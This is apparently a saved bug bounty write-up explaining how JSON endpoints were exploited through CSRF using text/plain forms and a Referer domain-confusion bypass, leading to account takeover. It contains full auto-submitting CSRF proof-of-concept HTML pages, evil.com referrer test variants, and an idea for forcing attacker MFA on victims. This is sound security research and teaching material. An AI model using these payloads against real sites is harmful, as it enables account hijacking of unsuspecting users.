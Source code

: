 #csrf #domain_cofusion #json
# summary:
- check for csrf in every changing request even if json
- try to add original host in referrer header after attacker website (domain confusion)
# report
## **Analyzing the Requests**

After looking at the http history we will find the following:  
1. All the requests are calling a `.json` endpoint, e.g., `account.example.com/login.json`

2. Requests are sent in the json format

3. There is no CSRF Header in any request

At that point, I thought the application wouldn’t be vulnerable to CSRF because the requests were sent in JSON format, and you wouldn’t be able to set the `Content-Type` header due to the [_Same-Origin-Policy_](https://portswigger.net/web-security/cors/same-origin-policy),So, I started looking for other exploits in the application. Thirty minutes later, I decided to try exploiting this CSRF vulnerability.

## Exploitation Preparation

==The only way we could exploit this is if the server wasn’t checking the== ==`Content-Type`== ==header and enforcing it to be== ==`"application/json"`====. So, let's check if the application is verifying the header or not...==

We will test the Change Phone Number function, as we could achieve an ATO if we are able to change the victim’s phone number.

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:700/1*5fhdcmKdeg8UOkSssRh8Gg.png)

wooob wooob

OKAY! The phone number changed successfully. One last check, and we’re ready to go…

One more check… Does the application require a specific pattern in its JSON body, or can we add some useless parameters and still have it work?

We Can Check this by adding a random parameter with random value e.g., `"a":"test"`

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:700/1*s_9sb5YSZICDboEkFSAfcA.png)

Let’s Go now we can craft Our Exploitation

## Exploitation

Let’s Create a simple proof of concept (POC). We will set `enctype="text/plain"` and include the JSON body in a hidden input. Why did we need the extra parameter in our exploit? Because if you try to send the request like this...
```
<html>  
<head><meta name="referrer" content="unsafe-url"></head>  
<body>  
<script>history.pushState('', '', '/')</script>  
<form name="hacker" method="POST" action="https://account.example.com/phone.json" enctype="text/plain">  
<input type="hidden"  
name= '{"_formName":"change-phone","phone":"01111111118"}'>  
</form>  
<script>  
document.forms[0].submit();  
</script>  
</body>  
</html>
```
<html>  
  <head><meta name="referrer" content="unsafe-url"></head>  
  <body>  
  <script>history.pushState('', '', '/')</script>  
  <form name="hacker" method="POST" action="https://account.example.com/phone.json" enctype="text/plain">  
    <input type="hidden"  
    name= '{"_formName":"change-phone","phone":"01111111118"}'>  
    </form>  
    <script>      document.forms[0].submit();    </script>  
  </body>  
</html>

This will result in the following JSON body:

![](https://miro.medium.com/v2/resize:fit:358/1*4TlrLBmwSv5Lp9Ux8uySFQ.png)

This is not a valid JSON format because, when submitting a form, every input is expected to have both a name and a value, formatted as `name=value`. To address this, we will set the `name` attribute to our intended body, add a random parameter to take the next `=` symbol as its value, and then set the `value` attribute to `}`.

`<input type="hidden" name= '{"phone":"01111111118","a":"' value='"}'>`

This will result in our correctly formatted JSON body:

![](https://miro.medium.com/v2/resize:fit:314/1*ViAaAH0ybirtWSMZyPIM0w.png)

So Our Exploitation so far is:
```
<html>  
<head><meta name="referrer" content="unsafe-url"></head>  
<body>  
<script>history.pushState('', '', '/')</script>  
<form name="hacker" method="POST" action="https://account.example.com/phone.json" enctype="text/plain">  
<input type="hidden"  
name= '{"phone":"01111111118","a":"' value='"}'>  
</form>  
<script>  
document.forms[0].submit();  
</script>  
</body>  
</html>
```
<html>  
  <head><meta name="referrer" content="unsafe-url"></head>  
  <body>  
  <script>history.pushState('', '', '/')</script>  
  <form name="hacker" method="POST" action="https://account.example.com/phone.json" enctype="text/plain">  
    <input type="hidden"  
    name= '{"phone":"01111111118","a":"' value='"}'>  
    </form>  
    <script>      document.forms[0].submit();    </script>  
  </body>  
</html>

Since the whole application was working the same way, it became vulnerable to CSRF!

Let’s Get Our Bounty NOW

Well what about give it a try first?

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:700/1*qHGtnONsA1mEtyeTtwwz3Q.png)

??

## Further Investigation

So what is happening? Our request body looks good, and all these things are fine. Then why didn’t it work?

Let’s compare our two requests, the one sent by our exploitation and the one sent with Repeater from Burp Suite.

Since it was the same body, it’s not a problem for us. The cookie is sent successfully, so it’s not about the SameSite flag. Let’s check our headers one by one:

- The `Origin`? Nope.
- `Content-Type`? Nope.
- `Referrer`? Yes…

It needs to have the application domain to work properly. Thankfully, it’s the `Referrer` header, so we still have hope.

If we can manipulate it to make it accept our own server, we can host the exploit on it, set the header using the `history.pushState` function in JavaScript, and still exploit the bug.

So what we need here is domain confusion — to make the server think it’s their own domain when it is not.

Our Tests

- evilaccount.example.com → Fail
- evil.com/account.example.com → Fail
- account.exampleevil.com → Fail
- account.exampleevil.com → Fail
- account.example.com@evil.com → Fail
- evil.com#account.example.com → Fail

the application doesn’t validate the occurrence of domain in the header,

but if we tried something like `test@example.com` it will work and this is normal

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:700/1*Acs1wE80c_RKzehLVoDP8Q.png)

Url Contents

So the domain is valid. But what if it is only checking what comes after the `@` symbol? We can try something like this:  
`https://evil.com/test@example.com`  
Let’s try it in our Repeater.

Press enter or click to view image in full size

![](https://miro.medium.com/v2/resize:fit:700/1*mjIyNJexVun8Ar4gdpDtlA.png)

LET’S GO

And Our Final Exploit Will Be:

<html>  
  <head><meta name="referrer" content="unsafe-url"></head>  
  <body>  
  <script>history.pushState('', '', '/')</script>  
  <form name="hacker" method="POST" action="https://account.example.com/phone.json" enctype="text/plain">  
    <input type="hidden"  
    name= '{"phone":"01111111118","a":"' value='"}'>  
    </form>  
    <script>      history.pushState("", "", "/anything@account.example.com")  
      document.forms[0].submit();    </script>  
  </body>  
</html>

Since this was the mitigation mechanism for the entire application, the whole application is now vulnerable to CSRF!

We Are Able To:

- Change Account Phone Number → ATO
- Change Account Username
- Change Account Real Name
- Connect/Disconnect Account From Platforms
- Create/Delete/Edit API Key With Full Permissions On Account
- 2 More Functions

One interesting aspect is that by activating MFA using authenticator apps, we only need to send a request containing the attacker’s MFA `secret key` and `OTP`. This would enable MFA on the victim’s account, making them unable to log in again.

## **Conclusion And Lessons Learned**

By this, we were able to bypass CSRF using domain confusion. What I learned from this is that I almost missed this bug due to my incorrect assumption that an application using `application/json` content type wouldn’t be vulnerable to CSRF. We need to try everything and never solely trust developers.

The “Change Phone Number” report was marked as critical (9.0–10.0) because it leads to Account Takeover (ATO).

Reward: 4000$ USD
# link 
https://infosecwriteups.com/csrf-bypass-using-domain-confusion-leads-to-ato-ac682dd17722
